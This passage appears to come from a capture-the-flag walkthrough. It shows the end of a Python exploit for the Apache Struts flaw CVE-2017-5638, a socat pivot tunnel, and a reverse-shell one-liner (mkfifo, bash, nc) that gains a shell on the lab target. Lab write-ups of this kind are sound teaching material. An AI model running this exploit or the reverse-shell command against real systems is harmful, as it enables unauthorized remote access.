 ```bash
        }

        http = None
        try:
            http = requests.get(
                url, headers=headers
            )
        except Exception as err:
            log.exception(err)

        return http

if __name__ == '__main__':
    import sys

    if len(sys.argv) != 3:
        print("[+] python %s <url> <cmd>" % sys.argv[0])
        sys.exit()

    url = sys.argv[1]
    cmd = sys.argv[2]
    st = CVE_2017_5638()
    st.exploit(url, cmd)
```

This is the final exploit I used. I only modified it to work with python3 and the libraries that were already on the straylight machine.

Since we have an exploit, all we need to do now is set up our tunnel. We can use socat to do this.

```bash
root@straylight:/tmp# socat TCP4-LISTEN:8088,fork TCP4:192.168.56.103:4246&
[1] 12558
```

This will cause any connection coming in to the 8088 port of the straylight machine to be tunelled to our attack host through port 4246 which is where our listener will be.

Let’s set up our listener and run our exploit.

```bash
root@straylight:/tmp# ./exploit.py http://192.168.157.6:8080/struts2_2.3.15.1-showcase/showcase.action 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.157.5 8088 >/tmp/f'
[+] The target is vulnerable.
```

```bash
nc -lvnp 4246         
listening on [any] 4246 ...
connect to [192.168.56.103] from (UNKNOWN) [192.168.56.102] 43814
bash: cannot set terminal process group (1009): Inappropriate ioctl for device
bash: no job control in this shell
ta@neuromancer:/$ id
id
uid=1000(ta) gid=1000(ta) groups=1000(ta),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
ta@neuromancer:/$
```
